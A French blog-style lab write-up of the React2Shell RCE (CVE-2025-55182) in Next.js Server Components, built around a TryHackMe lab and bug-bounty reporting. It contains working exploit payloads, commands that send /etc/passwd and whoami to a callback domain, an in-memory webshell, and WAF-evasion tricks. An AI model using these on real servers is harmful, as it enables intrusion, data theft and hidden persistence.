



# React2Shell : ou comment j'ai découvert que React pouvait exécuter des commandes système

## L'histoire de comment une requête HTTP m'a fait recracher mon Red Bull

Laissez-moi vous raconter une histoire. Je faisais ma veille cybersécurité du matin tranquillement (comprendre : je scrollais Twitter en buvant mon Red Bull avant d'aller nourrir les chèvres) quand je suis tombée sur un tweet mentionnant une CVE avec un score de 10.0. Dix sur dix. Le score maximum. Le genre de truc qui fait que les RSSI du monde entier font des cauchemars.

CVE-2025-55182. Surnommée "React2Shell". Une RCE non authentifiée sur les applications React avec Server Components.

J'ai immédiatement pensé : "Combien d'applications Next.js on a en prod déjà ?" Puis j'ai pensé à Ragnar, ma chèvre alpha, qui aurait probablement trouvé cette faille avant moi si elle savait coder. Elle a un talent naturel pour trouver les failles dans mes clôtures.

Le soir même, après le boulot, j'ai monté un lab. Et ce que j'ai découvert m'a fait comprendre pourquoi cette CVE méritait son 10.0.

## Le contexte : React Server Components, c'est quoi ce bazar ?

Avant de parler de l'attaque, il faut comprendre ce qu'on attaque. Sinon c'est comme expliquer comment Ragnar s'échappe de l'enclos sans expliquer comment fonctionne une clôture.

### L'évolution de React

React, à la base, c'est du rendu côté client. Votre navigateur télécharge du JavaScript, l'exécute, et affiche la page. Simple.



Le problème : c'est lent. L'utilisateur voit une page blanche pendant que 2 Mo de JavaScript se téléchargent et s'exécutent.

### Les React Server Components (RSC)

Next.js 13+ a introduit les Server Components : certains composants s'exécutent sur le serveur, pas dans le navigateur. Le serveur fait le rendu et envoie le résultat.



C'est plus rapide, plus SEO-friendly, et ça permet d'accéder directement aux ressources serveur (bases de données, fichiers, etc.).

### Le protocole Flight : le messager entre client et serveur

Pour faire communiquer le client et le serveur, React utilise un protocole propriétaire appelé "Flight". C'est lui qui sérialise les composants serveur et leurs données.

Et c'est là que ça devient intéressant (comprendre : dangereux).

## La vulnérabilité : quand la confiance tue

### Le problème fondamental

Le protocole Flight doit désérialiser les données envoyées par le client. Et devinez quoi ? Il fait confiance aux données entrantes. Comme mes chèvres font confiance à n'importe qui avec de la nourriture.



### La chaîne d'exploitation

L'attaque exploite une combinaison de :

1. **Prototype pollution** : Manipulation de la chaîne de prototypes JavaScript
2. **Désérialisation non sécurisée** : Le serveur exécute ce qu'on lui envoie
3. **Accès au constructeur Function** : Permet d'exécuter du code arbitraire

En gros, on envoie une requête HTTP spécialement craftée, et le serveur exécute nos commandes système. Sans authentification. Sans rien.

C'est comme si Ragnar pouvait ouvrir la porte de l'enclos juste en bêlant d'une certaine façon. Terrifiant.

### Impact : pourquoi c'est un 10.0

- **RCE** : Remote Code Execution, on exécute ce qu'on veut sur le serveur
- **Non authentifié** : Pas besoin de compte, pas besoin de rien
- **Facile à exploiter** : Une seule requête HTTP suffit
- **Large surface d'attaque** : Next.js est PARTOUT

## Le lab : on monte notre environnement de test

**DISCLAIMER IMPORTANT**

Ce qui suit est UNIQUEMENT à des fins éducatives. N'exploitez cette faille que sur :
- Des environnements de lab que vous contrôlez
- Des programmes de bug bounty avec scope explicite
- Des tests mandatés contractuellement

Sinon, c'est illégal. Et vous finirez avec des problèmes bien plus graves qu'une chèvre qui s'échappe.

### Option 1 : le lab TryHackMe (recommandé)

TryHackMe propose un lab dédié à cette CVE. C'est le plus simple pour commencer.

**Lien** : https://tryhackme.com/room/react2shellcve202555182

Avantages :
- Environnement isolé et légal
- Pas de configuration
- Guidé pas à pas

### Option 2 : lab local avec Docker

Si vous voulez votre propre environnement :

```bash
# Cloner une app Next.js vulnérable (exemple)
git clone https://github.com/[repo-vulnerable-app]
cd vulnerable-nextjs-app

# Lancer avec Docker
docker-compose up -d

# L'app tourne sur http://localhost:3000
```

Pour ce write-up, j'utilise le lab TryHackMe. Adaptez selon votre environnement.

## Phase 1 : reconnaissance - trouver des cibles

### Étape 1.1 : identifier les technologies

Avant d'attaquer, il faut trouver des applications Next.js/React avec Server Components. Plusieurs approches.

#### Méthode manuelle : les headers HTTP

```bash
# Avec curl, regarder les headers
curl -I https://target.com

# Chercher des indices :
# - X-Powered-By: Next.js
# - Headers spécifiques RSC
```

#### Avec httpx (scan en masse)

```bash
# Installer httpx
go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest

# Scanner une liste de domaines et détecter les technos
cat domaines.txt | httpx -silent -td | grep -Ei "Next\.js|React"

# Exemple de sortie :
# https://target1.com [Next.js]
# https://target2.com [React]
```

#### Avec Wappalyzer (extension navigateur)

Installez l'extension Wappalyzer. En visitant un site, elle détecte automatiquement les technologies utilisées.

### Étape 1.2 : utiliser les moteurs de recherche spécialisés

Les plateformes comme Shodan, ZoomEye et FOFA indexent les technologies détectées.

#### Shodan

```
# Rechercher des serveurs Next.js
http.component:"next.js"

# Ou React
http.component:"react"
```

#### FOFA

```
app="NEXT.JS"
```

#### ZoomEye

```
app="React.js" || app="React Router"
```

**Conseil** : Si vous ciblez un domaine spécifique (bug bounty), combinez avec `hostname:target.com` pour filtrer.

### Étape 1.3 : énumération des sous-domaines

Les applications vulnérables sont souvent sur des sous-domaines (staging, dev, api, etc.).

```bash
# Avec subfinder
subfinder -d target.com -all -o subdomains.txt

# Vérifier lesquels sont en ligne et utilisent Next.js
cat subdomains.txt | httpx -silent -td | grep -i "next"
```

## Phase 2 : validation - confirmer la vulnérabilité

Avant de sortir les gros outils, on vérifie si la cible est réellement vulnérable.

### Étape 2.1 : scan avec Nuclei

Nuclei a un template pour cette CVE. C'est le moyen le plus rapide de valider.

```bash
# Installer Nuclei
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest

# Mettre à jour les templates
nuclei -update-templates

# Scanner une cible
nuclei -u https://target.com -t CVE-2025-55182.yaml

# Scanner une liste
nuclei -l targets.txt -t CVE-2025-55182.yaml -c 30
```

Résultat si vulnérable :

```
[CVE-2025-55182] [critical] https://target.com
```

### Étape 2.2 : extension navigateur RSC_Detector

Une extension permet de détecter automatiquement la vulnérabilité en naviguant.

**Dépôt** : https://github.com/mrknow001/RSC_Detector

```
1. Installer l'extension
2. Visiter le site cible
3. L'extension indique si vulnérable
4. Si oui, elle permet même de tester des commandes
```

C'est pratique pour une validation rapide, mais pour un vrai pentest, on passe à Burp Suite.

### Étape 2.3 : validation manuelle avec curl

Pour les puristes (ou les paranos qui ne font confiance à aucun outil) :

```bash
# Envoyer une requête de test basique
# La structure exacte dépend de l'implémentation
# Ceci est un exemple simplifié

curl -X POST https://target.com/api/endpoint \
  -H "Content-Type: multipart/form-data" \
  -H "Next-Action: test" \
  -d '{"then":"$1:__proto__:then","_response":{"_formData":{"get":"$1:constructor:constructor"}}}'
```

Si le serveur répond différemment (erreur spécifique, timeout, etc.), c'est un indice.

## Phase 3 : exploitation - du PoC au shell

On entre dans le vif du sujet. Plusieurs techniques selon ce qu'on veut prouver.

### Étape 3.1 : configuration de Burp Suite

```
1. Lancer Burp Suite
2. Configurer le proxy (127.0.0.1:8080)
3. Configurer le navigateur pour utiliser ce proxy
4. Ajouter le certificat Burp (pour HTTPS)
5. Naviguer vers la cible
6. Intercepter les requêtes
```

### Étape 3.2 : exploitation avec retour dans la réponse (le plus propre)

C'est la méthode idéale pour un rapport : la sortie de la commande apparaît directement dans la réponse HTTP.

#### Interception de la requête

1. Dans Burp, intercepter une requête POST vers l'application
2. Envoyer vers Repeater (Ctrl+R)
3. Modifier le corps de la requête avec le payload

#### Structure du payload

```
POST /[endpoint] HTTP/2
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Next-Action: [action-id]

------WebKitFormBoundary
Content-Disposition: form-data; name="0"

{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\"then\":\"$B1337\"}"}
------WebKitFormBoundary
Content-Disposition: form-data; name="1"

$@0
------WebKitFormBoundary
Content-Disposition: form-data; name="2"

["$undefined","$K1",{"children":["$","div",null,{"children":["$","$1","$L2",{"name":"test"}]}]},null]
------WebKitFormBoundary
Content-Disposition: form-data; name="B1337"

return process.mainModule.require('child_process').execSync('id').toString()
------WebKitFormBoundary--
```

#### Résultat attendu

Si vulnérable, la réponse contient :

```
uid=1000(node) gid=1000(node) groups=1000(node)
```

Boom. RCE confirmée. Vous avez exécuté `id` sur le serveur.

### Étape 3.3 : exploitation Out-of-Band (quand pas de retour direct)

Parfois, la sortie n'apparaît pas dans la réponse. On utilise alors une technique OOB (Out-of-Band).

#### Préparer votre serveur de callback

```bash
# Option 1 : Burp Collaborator (intégré à Burp Pro)
# Générer un domaine Collaborator dans Burp

# Option 2 : interactsh (gratuit)
go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest
interactsh-client

# Vous obtenez un domaine du type : abc123.oast.fun
```

#### Payload pour callback HTTP

Modifier le payload pour faire une requête sortante :

```javascript
return process.mainModule.require('child_process').execSync('curl http://votre-domaine.oast.fun').toString()
```

#### Payload pour exfiltrer des données

```javascript
return process.mainModule.require('child_process').execSync('curl -X POST -d @/etc/passwd http://votre-domaine.oast.fun').toString()
```

Si vous recevez une requête sur votre serveur, c'est gagné. Et si vous recevez le contenu de `/etc/passwd`, vous avez une preuve d'impact solide.

### Étape 3.4 : exploitation DNS (encore plus furtif)

```javascript
return process.mainModule.require('child_process').execSync('nslookup $(whoami).votre-domaine.oast.fun').toString()
```

Vous recevrez une requête DNS avec le résultat de `whoami` en sous-domaine :

```
Received DNS query: node.votre-domaine.oast.fun
```

### Étape 3.5 : shell en mémoire (technique avancée)

Pour les cas où vous avez besoin d'un accès persistant (dans un contexte autorisé, évidemment).

#### Injection du shell

Ce payload injecte un endpoint `/exec` dans le serveur Node.js :

```javascript
const http = require('http');
const { execSync } = require('child_process');

// Intercepter les requêtes sur /exec
const originalEmit = http.Server.prototype.emit;
http.Server.prototype.emit = function(event, req, res) {
  if (event === 'request' && req.url.startsWith('/exec')) {
    const cmd = new URL(req.url, 'http://localhost').searchParams.get('cmd');
    try {
      const output = execSync(cmd).toString();
      res.end(output);
    } catch(e) {
      res.end(e.toString());
    }
    return;
  }
  return originalEmit.apply(this, arguments);
};
```

#### Utilisation

Une fois injecté, accédez simplement à :

```
http://target.com/exec?cmd=ls+-la
http://target.com/exec?cmd=cat+/etc/passwd
http://target.com/exec?cmd=whoami
```

Le shell reste en mémoire tant que le processus Node.js tourne. Pas de fichier sur le disque, pas de trace évidente.

C'est comme quand Ragnar a trouvé un trou dans la clôture : elle ne l'a dit à personne et l'utilise discrètement quand elle veut. Sournois mais efficace.

## Phase 4 : contournement de WAF

Les pare-feux applicatifs (WAF) peuvent bloquer vos tentatives. Voici des techniques pour les contourner.

### Technique 1 : encodage Unicode

Les WAF cherchent des mots-clés comme `constructor`. Encodez-les :

```
constructor → \u0063\u006f\u006e\u0073\u0074\u0072\u0075\u0063\u0074\u006f\u0072
```

Le serveur décode, le WAF ne reconnaît pas.

### Technique 2 : chunked transfer encoding

Découper la requête en morceaux :

```
Transfer-Encoding: chunked
```

Certains WAF n'analysent pas correctement les données fragmentées.

### Technique 3 : bourrage de données (padding)

Les WAF ont une limite de taille d'inspection. Ajoutez du junk avant le payload :

```json
{
  "padding": "AAAAAAAAAA... (64+ Ko de A)",
  "payload_malveillant": "..."
}
```

Le payload se retrouve hors de la fenêtre d'analyse.

### Technique 4 : variation de casse des headers

```
Next-Action: x
next-action: x
NEXT-ACTION: x
nExT-aCtIoN: x
```

### Technique 5 : concaténation de chaînes

```javascript
require("child_process")["ex"+"ec"]("id")
```

Le WAF ne voit pas `exec`, mais le code s'exécute quand même.

### Technique 6 : Content-Type alternatif

```
Content-Type: text/plain
Content-Type: application/octet-stream
```

Au lieu du `multipart/form-data` attendu.

## Phase 5 : documentation pour le rapport

Un bon rapport de bug bounty ou de pentest doit être clair et reproductible.

### Structure recommandée

```markdown
## Titre
CVE-2025-55182 - Remote Code Execution via React Server Components

## Sévérité
Critique (CVSS 10.0)

## URL affectée
https://target.com/api/vulnerable-endpoint

## Description
L'application utilise React Server Components avec une version vulnérable
de Next.js. Le protocole Flight ne valide pas correctement les données
entrantes, permettant une exécution de code arbitraire.

## Étapes de reproduction
1. Intercepter une requête POST vers [endpoint]
2. Modifier le corps avec le payload suivant : [payload]
3. Observer l'exécution de la commande dans la réponse

## Preuve de concept
[Screenshot de Burp avec la requête/réponse]
[Sortie de la commande exécutée]

## Impact
Un attaquant non authentifié peut exécuter des commandes arbitraires
sur le serveur, menant à :
- Vol de données sensibles
- Compromission complète du serveur
- Mouvement latéral dans l'infrastructure

## Remédiation
Mettre à jour Next.js vers la version [version corrigée]
```

## Ce que Ragnar m'a appris sur la sécurité

En rentrant du boulot ce soir-là, j'ai trouvé Ragnar dans le potager. Encore. Elle avait découvert que le nouveau portail automatique s'ouvrait pour n'importe quelle chèvre qui se présentait devant le capteur, sans vérifier si c'était moi qui l'avais autorisée à sortir.

Le protocole Flight, c'est mon portail. Il fait confiance à tout ce qui arrive, sans poser de questions.

J'ai aussi repensé à ce sac de granulés discount que j'avais acheté le mois dernier. Je l'avais ouvert et versé directement dans la mangeoire sans regarder. Il y avait des cailloux dedans. Heureusement, les chèvres sont plus malignes que moi et les ont triés. Mais un serveur qui désérialise des données malveillantes n'a pas cet instinct de survie.

Et puis il y a ma clôture. Cinquante mètres de grillage avec des dizaines de poteaux, de jointures, de points de faiblesse potentiels. Plus elle est grande, plus Ragnar a de chances de trouver LA faille. Next.js est déployé sur des millions de serveurs. La surface d'attaque est colossale.

Finalement, mes chèvres font du pentest sans le savoir. Elles testent mes défenses en permanence, trouvent les failles, et les exploitent sans vergogne. La différence, c'est qu'elles visent mon potager, pas mes données.

## Ce qu'il faut retenir

**Pour les pentesters** :
- Nuclei + template CVE = validation rapide
- Burp Suite pour l'exploitation manuelle
- Techniques OOB quand pas de retour direct
- Documenter proprement pour le rapport

**Pour les défenseurs** :
- Mettre à jour Next.js immédiatement
- Auditer toutes les applications RSC
- Configurer un WAF avec règles adaptées
- Surveiller les logs pour les patterns d'exploitation

**Pour tout le monde** :
- La désérialisation non sécurisée est dangereuse
- Les frameworks modernes ne sont pas immunisés
- La confiance sans validation est une faille

## Ressources

- **Lab TryHackMe** : https://tryhackme.com/room/react2shellcve202555182
- **Template Nuclei** : Inclus dans les templates par défaut
- **Extension RSC_Detector** : https://github.com/mrknow001/RSC_Detector

## Conclusion

React2Shell est une de ces vulnérabilités qui rappellent que même les frameworks les plus modernes peuvent avoir des failles critiques. Une seule requête HTTP, pas d'authentification, et vous avez un shell sur le serveur.

J'ai passé plusieurs pauses déjeuner sur cette CVE. Mes collègues m'ont regardée manger un sandwich d'une main en tapant des payloads de l'autre avec ce regard qui dit "elle est encore sur une CVE". Ils avaient raison.

Mais maintenant, je sais comment ça marche. Et vous aussi.

Testez ça sur le lab TryHackMe, pas sur des sites en production. Et si vous trouvez cette faille sur un programme de bug bounty, documentez bien votre rapport. Les triagers vous remercieront.

Quant à moi, je retourne surveiller mes chèvres. Ragnar a ce regard qui dit "j'ai trouvé une nouvelle faille dans la clôture". Elle ferait une excellente pentester.

---

PS : Oui, j'ai vraiment passé ma pause déjeuner à exploiter une CVE au lieu de manger. Non, je ne regrette rien. Mon estomac qui gargouillait en réunion l'après-midi était un badge d'honneur.

PPS : Si votre application Next.js est vulnérable et que vous lisez cet article, arrêtez de lire et allez patcher. Maintenant. Je peux attendre.

PPPS : Ragnar continue de trouver des failles dans mes clôtures. Je pense qu'elle a un score CVSS personnel de 8.5 minimum. Elle n'a pas besoin d'authentification pour s'échapper, et l'impact sur mon jardin potager est sévère.

PPPPS : La vraie question existentielle : est-ce que les React Server Components sont une bonne idée architecturale ? Probablement. Est-ce que la désérialisation sans validation est une bonne idée ? Absolument pas. Comme ma décision de mettre la mangeoire près de la clôture. Ragnar approuve cette analogie.

---

*Les informations présentées dans cet article sont destinées à des fins éducatives. Exploitez uniquement des systèmes pour lesquels vous avez une autorisation explicite. Mes chèvres, elles, n'ont pas besoin d'autorisation pour exploiter mes clôtures, mais c'est une autre histoire.*
